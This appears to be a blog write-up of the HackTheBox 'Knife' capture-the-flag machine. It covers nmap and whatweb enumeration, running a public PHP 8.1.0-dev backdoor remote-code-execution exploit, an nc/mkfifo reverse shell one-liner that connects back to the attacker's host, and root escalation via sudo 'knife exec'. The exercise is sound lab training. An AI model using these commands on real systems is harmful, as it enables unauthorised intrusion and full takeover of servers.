 ```yaml
---
title: Knife Machine HackTheBox
date: 2022-10-22 00:18:00 +0800
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


# Description

In this machine we will learn how to get a reverse shell throught a webshell and many more:

# Enumeration

First of all lets run an nmap:

```ruby
Nmap 7.93 scan initiated Tue Nov  1 14:45:26 2022 as: nmap -p22,80 -sCV -oN targeted 10.129.87.148
Nmap scan report for 10.129.87.148
Host is up (0.048s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be549ca367c315c364717f6a534a4c21 (RSA)
|   256 bf8a3fd406e92e874ec97eab220ec0ee (ECDSA)
|_  256 1adea1cc37ce53bb1bfb2b0badb3f684 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov  1 14:45:48 2022 -- 1 IP address (1 host up) scanned in 21.63 seconds
```
And go straight to the machine page. Unluckly, we can do nothing, since there is no interactive stuff.

>Now should be a good momment to run a whatweb (To see what tecnology is the page using and see if there is any vulnarable software)
{: .prompt-tip}

```bash
whatweb http://10.129.78.68
http://10.129.78.68 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.78.68], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```
From here we can extract PHP 8.1.0 DEV, which is vulnerable withing its version

```bash
searchsploit PHP 8.1.0-dev
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution     | php/webapps/49933.py
```

Lets get it into our local machine and run it :

```bash
searchsploit -m php/webapps/49933.py

python3 49933.py
```
>If we submit the website's address: http://machine_IP we will be in and can sumbit the user.txt flag
{: .prompt-tip}

Now, we need WE ARE IN A WEBSHELL, and we need to get a reverse shell to our local machine:

```bash
nc -lvnp 4444
and execute this command:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {Our machine IP} 4444 >/tmp/f
```

>Now we got a reverse shell, and lets turn it into an interactive one:
{: .prompt-tip}
```bash
script /dev/null -c bash
ctrl+z
stty raw -echo;fg
export TERM=xterm
```

Now we gotta do privilege escalation, so lets run sudo -l to see if we can run any file/command as sudo:

```bash
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
>We can run the knife binary, and since it is a RUBY file, we have to run it with exec:
{: .prompt-info}

```bash
sudo knife exec

james@knife:/usr/bin$ sudo knife exec
An interactive shell is opened

Type your script and do:

1. To run the script, use 'Ctrl D'
2. To exit, use 'Ctrl/Shift C'

Type here a script...
```
Now, to get user bash, we just have to type the following command and press ctrl+D:

```
Type here a script...
exec "/bin/bash"
root@knife:/usr/bin# whoami
root
root@knife:/usr/bin# cd /root
root@knife:~# ls
delete.sh  root.txt  snap
```
>NOW WE CAN SUBMIT ROOT FLAG! CONGRATULATIONS, YOU MADE IT TILL THE END!!!  KEEP IT UP
{: .prompt-danger}
